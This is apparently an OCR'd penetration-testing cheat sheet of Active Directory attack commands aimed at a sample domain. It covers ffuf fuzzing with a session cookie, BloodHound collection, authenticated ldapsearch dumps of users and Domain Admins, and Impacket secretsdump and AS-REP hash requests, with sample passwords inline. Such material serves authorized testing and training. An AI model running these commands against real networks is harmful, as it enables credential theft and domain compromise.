 # Fuzz using a PHPSESSID cookie matching a 200 response code
ffuf -w common.txt -b "PHPSESSID=a4885a1d1802209109693054d94ae214; security=low" -u http://osbornepro.com/FUZZ -mc 200
debugger eval code:1:62
# BLOODHOUND
bloodhound-python -d osbornepro.com -u rosborne -p 'Password1' -gc dc01.osbornepro.com -c all -ns 10.0.0.1

# LDAPSEARCH (Unauthenticated)
ldapsearch -h 10.0.0.1 -x -b DC=osbornepro,DC=com &gt; ldapsearch.txt
ldapsearch -LLL -x -H ldap://dc01.osbornepro.com -b '' -s base '(objectclass=*)'

# LDAPSEARCH (Authenticated)
# Dump everything
ldapsearch -x -h 10.0.0.1 -D 'osbornepro.com\rosborne' -w 'Password123!' -b "DC=osbornepro,DC=com"
# Get Users
ldapsearch -x -h 10.0.0.1 -D 'osbornepro.com\rosborne' -w 'Password123' -b "CN=Users,DC=osbornepro,DC=com"
# Get Computers
ldapsearch -x -h 10.0.0.1 -D 'osbornepro.com\rosborne' -w 'Password123' -b "CN=Computers,DC=osbornepro,DC=com"
# Get Domain Admins
ldapsearch -x -h 10.0.0.1 -D 'osbornepro.com\rosborne' -w 'Password123' -b "CN=Domain Admins,CN=Users,DC=osbornepro,DC=com"

# NMAP
nmap --script=ldap-search.nse 10.0.0.1 -p389 -oN ldapsearch.results
nmap --script=ldap-rootdse.nse 10.0.0.1 -p389 -oN ldaprootdes.results

# IMPACKET
python samrdump.py 10.0.0.1
python secretsdump.py 10.0.0.1
python GetNPUsers.py osbornepro.com/ -usersfile user.list -format john -outputfile hashes.txt -request -dc-ip dc01.osbornepro.com

# LDAP Domain Dump
ldapdomaindump -u osbornepro.com\\rosborne -p 'Thestrokes23' -n 10.0.0.1 dc01.osbornepro.com
